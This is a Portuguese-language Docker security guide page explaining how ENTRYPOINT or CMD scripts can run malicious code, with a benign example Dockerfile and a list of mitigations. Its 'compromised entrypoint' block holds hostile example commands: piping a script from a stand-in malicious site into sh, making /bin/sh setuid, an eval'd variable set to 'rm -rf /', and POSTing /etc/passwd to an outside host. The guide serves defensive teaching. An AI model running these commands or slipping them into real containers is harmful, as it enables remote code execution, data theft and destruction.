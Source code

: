 # Execução de código malicioso via ENTRYPOINT ou CMD
---


[Artigo Principal](../index.html/#6-execução-de-código-malicioso-via-entrypoint-ou-cmd)

Quando construimos um Dockerfile, é comum termos o entrypoint, que é o que será executado toda vez que este container subir. 

Em muito cenários fica complexo e sem sentido escrever todo um ENTRYPOINT no próprio Dockerfile. 

Exemplo, se eu quiser rodar um comando poetry na minha aplicação python, que ira disparar migrations do banco de dados, comumente eu externo isto para um arquivo `entrypoint.sh` e coloco todos os comandos necessários nele. 

Portanto este arquivo esta externo e não explicito no meu Dockerfile. O que pode ocasionar algum risco de exploração, portanto é importante que se conheça o Dockerfile e entenda o que ele esta fazendo, que neste exemplo é chamar outro arquivo para dar inicio as atividades do container. 

Exempo Dockerfile 

```
FROM python:3.13-slim
ENV POETRY_VIRTUALENVS_CREATE=false

WORKDIR app/
COPY . .

RUN pip install poetry

RUN poetry config installer.max-workers 10
RUN poetry install --no-interaction --no-ansi
RUN chmod +x ./entrypoint.sh

EXPOSE 8000

ENTRYPOINT ["./entrypoint.sh"]
```

O arquivo entrypoint é o seguinte

```
#!/bin/sh

# Executa as migrações do banco de dados
poetry run alembic upgrade head

# Inicia a aplicação
poetry run uvicorn --host 0.0.0.0 --port 8000 todolist.app:app
```

Desta forma garantimos que o `alembic` rode na inicialização antes de iniciar a app. 

### Riscos

Os maiores riscos nesta abordagem, que geralmente é uma boa prática e muito feita na construção de Dockerfile, é quando não entendemos ou não conhecemos nosso arquivo `entrypoint.sh`, quando ele acessa um site externo, ou então quando temos modificações nele que baixam scripts externos, ou aplicam scripts desconhecidos na nossa imagem, abrindo portas ou afins. 


Exemplos de ENTRYPOINT comprometido: 

```
#Site malicioso 

CMD ["sh", "-c", "curl http://site-malicioso.com/exploit.sh | sh"]
--------------------------------------------------------------------
#Escalada de privilégio 

ENTRYPOINT ["chmod", "4755", "/bin/sh"]  # Roda /bin/sh como root
--------------------------------------------------------------------
#Injeção de env var maliciosa

ENTRYPOINT ["/app/script.sh"]

#O script roda `eval $ENV_VAR_COMPROMETIDA`
#E o valor da env var é ENV_VAR_COMPROMETIDA="rm -rf /"
--------------------------------------------------------------------

# Envio de informações 

ENTRYPOINT ["/app/script.sh"]

#Conteudo do script tiver um `curl -X POST https://site-malicioso.com --data-binary @/etc/passwd`
#Estamos fazendo um post a um site passando todo nosso arquivo de usuarios e senhas 

```


### Mitigação

Para mitigar os problemas, geralmente usamos aquelas velhas boas práticas, como:

- Rodar como non-root  
- Restringir acesso de rede aos containers, acessar somente o que é necessários  
- Evitar usar `eval` e `exec`  
- Ter scripts de entrypoint o mais simples possíveis, e explicitos  
- Usar tags como `--no-new-privileges` no docker para previnir novos usuarios sendo criados depois de execução  
- Usar checksum no download de binários diretamente para a imagem.  

Seguir as boas praticas e conhecer o seu conteudo, baixar imagens confiaveis e conhecidas, usar imagens distroless e minimalistas ajudam a conter estes tipos de ataque. 





